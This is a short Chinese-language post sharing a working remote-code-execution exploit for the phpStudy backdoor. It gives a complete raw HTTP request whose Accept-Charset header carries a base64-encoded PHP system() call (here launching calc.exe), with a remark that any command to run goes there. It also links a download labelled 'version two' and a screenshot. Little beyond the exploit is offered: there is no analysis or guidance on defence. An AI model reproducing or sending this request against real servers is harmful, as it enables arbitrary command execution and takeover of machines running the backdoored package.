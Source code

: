 # Phpstudy 后门 RCE

来自圈子社区核心群

版本一

```
GET /1.php HTTP/1.1
Host: hedysx.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,_/_;q=0.8
Accept-Language: zh-CN,zh;q=0.9
Accept-Encoding:gzip,deflate
Accept-Charset:这里就是要执行的命令 base64 加密 c3lzdGVtKCdjYWxjLmV4ZScpOw==
Cookie: UM_distinctid=16ae380e49f27e-0987ab403bca49-3c604504-1fa400-16ae380e4a011b; CNZZDATA3801251=cnzz_eid%3D1063495559-1558595034-%26ntime%3D1559102092; CNZZDATA1670348=cnzz_eid%3D213162126-1559207282-%26ntime%3D1559207282
Connection: close
```

版本二：  
[phpstudy](https://www.hedysx.com/wp-content/uploads/2019/09/phpstudy.zip)

[![](https://www.hedysx.com/wp-content/uploads/2019/09/hedysx.com_2019-09-23_13-38-10-1024x529.png)](https://www.hedysx.com/wp-content/uploads/2019/09/hedysx.com_2019-09-23_13-38-10.png)

[](javascript:;)[0](#comments)
